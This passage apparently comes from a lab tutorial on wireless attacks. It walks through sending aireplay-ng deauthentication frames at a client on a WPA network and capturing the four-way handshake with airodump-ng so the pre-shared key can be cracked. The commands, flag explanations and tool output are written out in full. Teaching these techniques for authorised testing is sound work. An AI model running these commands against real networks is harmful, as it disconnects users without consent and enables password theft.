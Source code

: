 From the above output, we can see that there are three available WiFi networks, and `two clients` are connected to the network named `HTB`. Let's send a deauthentication request to one of the clients with the station ID `00:0F:B5:32:31:31`.

```shell
sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon

11:12:33  Waiting for beacon frame (BSSID: 00:14:6C:7A:41:81) on channel 1
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:36  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]

```

- `-0` means deauthentication
- `5` is the number of deauths to send (you can send multiple if you wish); `0` means send them continuously
- `-a 00:14:6C:7A:41:81` is the MAC address of the access point
- `-c 00:0F:B5:32:31:31` is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- `wlan0mon` is the interface name

Once the clients are deauthenticated from the AP, we can continue observing `airodump-ng` to see when they reconnect.

```shell
sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony

```

In the output above, we can see that after sending the deauthentication packet, the client disconnects and then reconnects. This is evidenced by the increase in `Lost` packets and `Frames` count.

Additionally, a `four-way handshake` would be captured by `airodump-ng`, as shown in the output. By using the `-w` option in airodump-ng, we can save the captured WPA handshake into a `.pcap` file. This file can then be used with tools like `aircrack-ng` to crack the pre-shared key (PSK). We will cover aircrack-ng and the process of cracking PSKs in the upcoming aircrack-ng section.
